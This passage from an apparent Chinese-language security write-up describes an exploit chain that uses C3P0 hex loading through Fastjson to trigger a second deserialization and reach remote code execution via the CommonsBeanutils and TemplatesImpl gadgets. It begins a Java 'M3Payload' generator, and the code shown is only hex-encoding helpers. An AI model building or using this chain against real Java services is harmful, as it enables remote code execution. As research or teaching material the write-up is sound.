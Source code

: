 我们利用 C3P0 依赖的利用 Fastjson 加载 HEX 编码，实现二次反序列化，打 RCE

反序列化部分，可以利用 CB 链去打 TemplateImpl 加载字节码的

[![](assets/1700701312-e85373552cc91fae515b57ea32161f12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121102145-b7737f96-8814-1.png)

同时因为第一步传入的需要是个`List`类型，所以需要在 JSON 数据外面加个`[]`

生成反序列化的部分

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class M3Payload {
    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        return out;
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }
```